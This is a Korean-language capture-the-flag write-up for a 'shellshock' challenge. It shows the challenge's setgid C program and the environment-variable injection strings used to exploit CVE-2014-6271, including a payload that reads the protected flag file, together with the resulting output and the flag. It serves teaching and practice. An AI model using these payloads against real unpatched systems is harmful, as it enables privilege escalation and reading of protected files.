

## 문제



1점 문제.

```sh
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

flag를 보려면 shellshock2 gid가 필요하고 shellshock를 실행하면 shellshock2 gid를 얻을 수 있다.

shellshock.c 내용은 다음와 같다.

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

## 풀이

shellshock 취약점은 아래 명령어로 체크할 수 있다.

```sh
env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
```

```sh
$ env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
safe~
$ env x='() { :;}; echo pwnable!' ./bash -c 'echo safe~'
pwnable!
safe~
$
```

같은 디렉토리에 있는 bash는 취약한 것을 확인했다. shellshock 프로그램에도 적용해보자.

```sh
env x='() { :;}; /bin/cat flag' ./shellshock
```

```sh
$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
$
```

이 취약점을 통해서 내가 원하는 명령을 shellshock2의 권한으로 실행할 수 있었다.

bash는 환경변수로 함수를 정의할 수 있는데, 함수 정의가 끝난 다음에 임의의 명령을 추가로 적으면 그 명령이 실행되는 문제인 것이다. 자세한 건 다음 링크에서 공부해보도록 하자.

<https://access.redhat.com/blogs/766093/posts/1976383>
